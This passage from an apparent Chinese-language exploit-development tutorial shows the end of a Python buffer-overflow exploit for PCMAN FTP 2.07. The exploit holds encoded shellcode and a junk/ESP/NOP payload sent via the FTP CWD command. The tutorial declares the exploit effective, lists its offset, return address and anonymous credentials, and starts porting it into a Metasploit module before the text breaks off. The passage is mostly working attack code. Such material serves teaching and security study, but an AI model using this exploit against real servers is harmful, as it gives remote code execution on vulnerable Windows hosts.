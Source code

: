 ```py
        "\x6e\x5a\x4c\xb6\x27\xcc\xd8\xd0\xf0\xf3\xd8\xf6\x52\x58\x70"
        "\x91\x20\xb2\x45\x80\x36\x9f\xed\xcb\x0e\x77\x67\xa2\xdd\xe6"
        "\x78\xef\xb6\x8b\xeb\x74\x47\xc2\x17\x23\x10\x83\xe6\x3a\xf4"
        "\x39\x50\x95\xeb\xc0\x04\xde\xa8\x1e\xf5\xe1\x31\xd3\x41\xc6"
        "\x21\x2d\x49\x42\x16\xe1\x1c\x1c\xc0\x47\xf7\xee\xba\x11\xa4"
        "\xb8\x2a\xe4\x86\x7a\x2d\xe9\xc2\x0c\xd1\x5b\xbb\x48\xed\x53"
        "\x2b\x5d\x96\x8e\xcb\xa2\x4d\x0b\xfb\xe8\xcc\x3d\x94\xb4\x84"
        "\x7c\xf9\x46\x73\x42\x04\xc5\x76\x3a\xf3\xd5\xf2\x3f\xbf\x51"
        "\xee\x4d\xd0\x37\x10\xe2\xd1\x1d\x1a\xcd")
    sploit = junk+espaddress+nops+shellcode
    #create socket
    conn = s.socket(s.AF_INET,s.SOCK_STREAM)
    #establish connection to server
    conn.connect((host,21))
    #post ftp user
    conn.send('USER '+fuser+'\r\n')
    #wait for response
    uf = conn.recv(1024)
    #post ftp password
    conn.send('PASS '+fpass+'\r\n')
    #wait for response
    pf = conn.recv(1024)
    #send ftp command with sploit
    conn.send('CWD '+sploit+'\r\n')
    cf = conn.recv(1024)
    #close connection
    conn.close()
```

测试：

![Bildschirmfoto 2018-10-27 um 4.00.06 PM.png]({{ site.url }}/images/metasploit/9E0105F79CE0C623497DFA0E19FB931D.png)

结论：ExP有效。

### 移植到Metasploit

移植很容易，首先从上面的ExP收集到信息如下：

```bash
port: 21
Offset: 2006
jmp_esp: 0x7dd0811c
nops_num: 10
# added by us
username: anonymous
password: anonymous
```

得到exploit模块如下：

```ruby
class MetasploitModule < Msf::Exploit::Remote
	Rank = NormalRanking
	include Msf::Exploit::Remote::Ftp
	
	def initialize(info = {})
	    super(update_info(info,
			'Name'		=> 'PCMAN FTP 2.07 CWD Command Buffer Overflow',
			'Description' => %q{
				PCMAN FTP 2.07 CWD Command Buffer Overflow Example
			},
			'Platform'	=> 'win',
			'Author' => 'Rambo',
			'Targets'	=> [ 
						['Windows XP SP3', {'Ret' => 0x7dd0811c, 'Offset' => 2006}]
```